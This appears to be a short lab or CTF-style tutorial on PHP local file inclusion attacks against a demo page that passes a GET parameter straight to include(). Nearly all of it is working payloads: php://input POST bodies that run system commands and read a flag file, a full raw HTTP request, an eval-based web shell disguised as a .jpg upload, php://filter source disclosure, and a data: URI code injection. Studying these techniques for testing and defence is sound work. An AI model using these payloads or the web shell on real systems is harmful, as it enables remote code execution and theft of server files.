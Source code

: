 ## Summary of some common methods of file include attack.

File inclusion attacks are presented in server-side code in the form of:

```php+HTML
/*demo.php*/
<?php
    include($_GET['action']);
?>

```

Here are a few ways to use it.

### 1.Exploition of  php://input protocol

You can use the PHP pseudo-protocol php://input, often using the POST argument to take exploit it.

###### The GET parameter：

```http
/?action=php://input
```

###### The Post parameter

```php+HTML
<?php system("dir"); ?>
```

###### or

```php+HTML
<?php echo file_get_contents("../../flag.txt");?>
```

###### The full utilization payload is as follows

```http
POST /labs/IncludeAttack/demo.php/?action=php://input HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

<?php echo file_get_contents("../../flag.txt");?>
```

#### 2.Cooperate with upload attack

Among the file upload vulnerabilities, we have the Trojan virus:

```php
/*virus.php*/
<?php
    eval($_POST['pwd']);
?>
```

Change its suffix to .jpg post-upload, now in the target server we have a executable virus.

We can construct payload;

###### The GET&POST parameter

```http
/?action=virus.jpg
```

```php
pwd=system("dir");
// or pwd=system("ls -la");
// or pwd= echo file_get_contents("../../flag.txt");
```

#### 3.Explotion of php://filter

###### The GET parameter

```http
php://filter/read=convert.base64-encode/resource=../../flag.txt
```

 The echo is the base64 encryption form of the document.

#### 4.Any executable codes injection

We inject the byte stream of the PHP code we want to execute directly into the GET parameter, replacing the punctuation with %ord(byte).

###### The GET parameter

```http
// data: text/plain,<?php system("dir");?>
/?action=data%3a+text/plain,<%3fphp+system+%28"dir"%29%3b+%3f>
```

